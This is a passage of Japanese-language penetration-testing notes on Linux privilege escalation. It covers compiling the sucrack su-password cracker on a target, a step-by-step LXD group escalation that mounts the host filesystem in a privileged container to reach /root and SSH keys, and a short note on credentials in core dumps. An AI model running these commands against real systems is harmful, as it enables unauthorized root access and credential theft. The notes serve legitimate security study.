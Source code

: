 ```bash
```
wget等でターゲットにダウンロードしたら解凍してコンパイル。
```bash
cd /tmp
unzip sucrack.zip
./configure
make
```
以上の手順が完了したら実行可能。
```bash
/tmp/sucrack/src/sucrack
```
# Groups

```cardlink
url: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html
title: "Interesting Groups - Linux Privesc - HackTricks"
host: book.hacktricks.wiki
favicon: ../../../favicon.svg
```
[Interesting Groups - Linux Privesc - HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html)
## LXD
Linux Daemon.
システムコンテナマネージャ。
ユーザが `lxd` グループに属している場合は以下の手順で権限昇格が可能。
Alpineイメージをローカルにダウンロード。
```bash
git clone <https://github.com/saghul/lxd-alpine-builder.git>
cd lxd-alpine-builder/
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```
`alpine*****.tar.gz` 形式のファイルが出力されるのでターゲットにアップロードしてイメージをインポート。
```bash
lxc image ./alpine******.tar.gz --alias myimage
```
初期化。この際lxd storage poolをデフォルト値で作っておく。
```bash
lxd init
```
イメージを初期化して `/root` ディレクトリをマウント。
```bash
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```
イメージを起動してシェルを起動。
```bash
lxc start mycontainer
lxc exec mycontainer /bin/sh
```
以上の手順でターゲットの `/root` ディレクトリにアクセスできるようになったのでSSHの秘密鍵を取得あるいは追加してフルアクセスを得る。
# Core Dump
プログラムがクラッシュしたときにその時点でのメモリ内容・レジスタ情報・スタック・その他の実行状態をファイルに保存する仕組み。プログラムがクラッシュした原因を特定する手がかりとなるが、メモリに保持されたクレデンシャル情報を取得することができる可能性がある。
シグナル( `SIGSEGV` `SIGABRT` )を受けて異常終了した場合に生成される。
コアダンプファイルは実行中のカレントディレクトリまたは `/var/crash` に保存される。
セキュリティ上の理由から、多くの場合ではコアダンプは無効化されている。現在の設定は以下のコマンドで確認できる。 `0` の場合は無効化されている。
```bash
ulimit -c
```